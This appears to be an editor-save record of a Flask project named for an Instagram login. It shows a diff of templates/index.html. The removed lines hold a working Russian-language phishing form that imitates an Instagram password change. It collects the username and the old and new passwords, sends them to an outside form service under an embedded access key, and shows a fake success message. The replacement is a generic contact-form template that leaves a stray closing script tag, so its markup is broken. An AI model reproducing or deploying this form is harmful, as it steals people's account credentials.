
Repository: AlexandruMoloman/Instagram-Login-25Sep2024-
Page: http://localhost/
The author's editor kept a copy of each file at every save. The page is drawn from the files as they stood at one save, then again after the next save.
The browser window is 1280 px wide. The pictures show the whole page.
The page is served by the project's application, run on Flask 3 (app.py).

Above is the page before, as saved 2024-09-25 22:16:31.

After the next save:

Saved 4 min 24 s later.
--- a/templates/index.html
+++ b/templates/index.html
@@ -46,65 +46,44 @@
     <div class="container d-flex justify-content-center align-items-center min-vh-100">
       <div class="form-container">
         <div class="text-center">
-          <form id="registration-form" action="https://api.web3forms.com/submit" method="POST">
-            <input type="hidden" name="access_key" value="2ddd3bfc-7607-473b-baf6-01f00ac21efe" />
-            <div class="form-group">
-              <input
-                id="username"
-                type="text"
-                name="username"
-                class="form-control"
-                placeholder="Телефон, имя пользователя или эл. адрес"
-                required
-              />
-            </div>
-            <div class="form-group">
-              <input
-                type="password"
-                id="old-password"
-                name="old_password"
-                class="form-control"
-                placeholder="Старый пароль"
-                minlength="6"
-                required
-              />
-            </div>
-            <div class="form-group">
-              <input
-                type="password"
-                id="new-password"
-                name="new_password"
-                class="form-control"
-                placeholder="Новый пароль"
-                minlength="6"
-                required
-              />
-              <input type="checkbox" name="botcheck" class="hidden" style="display: none" />
-            </div>
-            <button type="submit" class="btn btn-primary">Изменить</button>
-          </form>
-          <div id="success-message" class="alert alert-success" role="alert"></div>
-        </div>
+
+<section class="contact-section">
+  <div class="contact-intro">
+    <h2 class="contact-title">Get in Touch</h2>
+    <p class="contact-description">
+      Fill out the form below and we'll get back to you as soon as possible.
+    </p>
+  </div>
+
+  <form class="contact-form" action="https://api.web3forms.com/submit" method="POST">
+
+    <input type="hidden" name="access_key" value="YOUR_ACCESS_KEY_HERE" />
+    <input type="hidden" name="subject" value="New Contact Form Submission from Web3Forms" />
+    <input type="hidden" name="from_name" value="My Website" />
+    <!-- More custom ization options available in the docs: https://docs.web3forms.com -->
+
+    <div class="form-group-container">
+      <div class="form-group">
+        <label for="name" class="form-label">Name</label>
+        <input id="name" name="name" class="form-input" placeholder="Your name" type="text" />
+      </div>
+      <div class="form-group">
+        <label for="email" class="form-label">Email</label>
+        <input id="email" name="email" class="form-input" placeholder="Your email" type="email" />
+      </div>
+      <div class="form-group">
+        <label for="phone" class="form-label">Phone</label>
+        <input id="phone" name="phone" class="form-input" placeholder="+1 (234) 56789" type="text" />
+      </div>
+      <div class="form-group">
+        <label for="message" class="form-label">Message</label>
+        <textarea class="form-textarea" id="message" name="message" placeholder="Your message"></textarea>
       </div>
     </div>
+    <button class="form-submit" type="submit">Send Message</button>
+  </form>
 
-    <script>
-      document.getElementById('registration-form').addEventListener('submit', function (event) {
-        event.preventDefault(); // Остановить стандартное поведение формы
-
-        const formData = new FormData(this);
-        const data = Object.fromEntries(formData.entries());
-
-        // Выводим данные в консоль (или обрабатываем их другим способом)
-        console.log(data);
-
-        // Показать сообщение об успехе
-        document.getElementById('success-message').textContent = 'Форма успешно отправлена!';
-        document.getElementById('success-message').style.display = 'block';
-
-        // Очистить поля формы
-        this.reset();
-      });
+</section>
     </script>
 
     <script src="https://stackpath.bootstrapcdn.com/bootstrap/5.3.0/js/bootstrap.bundle.min.js"></script>
